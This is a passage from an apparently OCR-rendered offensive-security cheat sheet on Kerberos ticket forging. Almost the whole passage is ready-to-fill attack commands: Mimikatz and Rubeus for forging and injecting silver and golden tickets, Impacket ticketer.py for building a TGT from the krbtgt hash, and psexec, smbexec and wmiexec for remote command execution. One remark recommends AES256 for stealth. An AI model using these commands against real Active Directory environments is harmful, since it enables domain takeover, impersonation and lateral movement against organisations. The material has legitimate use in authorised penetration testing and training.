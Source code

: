 **Generate TGS with AES 128bit Key**

```c
mimikatz # kerberos::golden /domain:<DOMAIN>/sid:<SID> /aes128:<KEY> /user:<USERNAME> /service:<SERVICE> /target:<RHOST>
```

**Generate TGS with AES 256bit Key (More secure Encryption, probably more stealth due is it used by Default)**

```c
mimikatz # kerberos::golden /domain:<DOMAIN>/sid:<SID> /aes256:<KEY> /user:<USERNAME> /service:<SERVICE> /target:<RHOST>
```

**Inject TGS with Mimikatz**

```c
$ mimikatz # kerberos::ptt <KIRBI_FILE>
```

\##3## Rubeus Examples

```c
C:\> .\Rubeus.exe ptt /ticket:<KIRBI_FILE>
```

**Execute CMD on Remote Host**

```c
C:\> .\PsExec.exe -accepteula \\<RHOST> cmd
```

**Golden Ticket**

**Impacket Examples**

**Generate TGT with NTLM**

```c
$ python ticketer.py -nthash <KRBTGT_NTLM_HASH> -domain-sid <SID> -domain <DOMAIN>  <USERNAME>
```

**Generate TGT with aesKey**

```c
$ python ticketer.py -aesKey <KEY> -domain-sid <SID> -domain <DOMAIN>  <USERNAME>
```

**Set TGT for Impacket Usage**

```c
$ export KRB5CCNAME=<USERNAME>.ccache
```

**Execute Remote Commands by using TGT**

```c
$ impacket-psexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
$ impacket-smbexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
$ impacket-wmiexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
```

**mimikatz Examples**
